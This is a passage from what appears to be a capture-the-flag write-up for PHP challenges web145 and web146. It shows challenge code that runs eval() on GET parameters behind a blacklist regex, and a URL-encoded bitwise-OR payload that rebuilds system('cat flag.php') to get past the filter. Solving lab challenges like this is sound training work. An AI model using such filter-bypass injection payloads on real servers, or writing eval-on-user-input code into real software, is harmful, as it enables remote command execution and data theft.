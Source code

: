 ```
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

```
?v1=1&v2=2&v3=|('%13%19%13%14%05%0d'|'%60%60%60%60%60%60')('%03%01%14%00%06%0c%01%07%02%10%08%10'|'%60%60%60%20%60%60%60%60%2c%60%60%60')|
```

![image-20221006155753920](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210061557994.png?x-oss-process=hzy)

# web146

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 17:41:33

*/


highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

上一题的升级版
